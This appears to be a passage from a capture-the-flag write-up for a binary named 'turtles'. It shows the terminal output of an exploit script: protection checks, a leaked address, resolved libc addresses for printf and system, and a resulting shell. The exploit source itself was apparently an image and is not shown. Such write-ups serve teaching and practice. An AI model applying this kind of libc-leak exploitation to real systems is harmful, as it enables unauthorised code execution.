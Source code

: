 and when we run it:

```
$	python exploit.py 
[+] Starting local process './turtles': pid 14027
[*] running in new terminal: /usr/bin/gdb -q  "/home/meinkea/Desktop/ttt/turtles" 14027 -x "/tmp/pwn3d5lGY.gdb"
[+] Waiting for debugger: Done
[*] '/home/meinkea/Desktop/ttt/turtles'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/meinkea/Desktop/ttt/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Here is a Turtle: 
[*] The leak is: 0x138c670
[*] Address of printf: 0x7f3b2112c510
[*] Address of system: 0x7f3b2111b6a0
[*] Address of libc base: 0x7f3b210d6000
Here is a Turtle: 
[*] The leak is: 0x13be600
[*] Switching to interactive mode
$ ls
core  exploit.py  libc.so.6  peda-session-turtles.txt  solved.py  turtles
$ w
 00:41:07 up  6:28,  1 user,  load average: 0.20, 0.14, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
meinkea  tty7     :0               16Sep18 15days  7:38   0.03s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
```